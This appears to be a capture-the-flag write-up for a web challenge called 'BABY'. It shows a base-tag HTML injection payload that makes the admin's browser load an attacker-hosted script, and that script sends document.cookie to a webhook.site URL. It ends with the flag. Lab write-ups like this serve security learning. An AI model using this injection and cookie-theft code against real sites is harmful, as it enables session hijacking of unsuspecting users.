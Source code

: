 ```yaml
---
layout: default
title: BABY
---
```




Here we can inject tag, we can inject this:
`<base href="ourDomain.com">`

Then, the admin will go there.
I just put `script.js` on my github pages, this is the `script.js` file:
```
window.location.href = "https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies="+document.cookie;
```

And then, just give this payload to the admin:
```
?inject=<base href="https://avishaigonen123.github.io/">
```


![win picutre](./images/BABY.png)


**Flag:** ***`FLAG{base_is_basic}`*** 
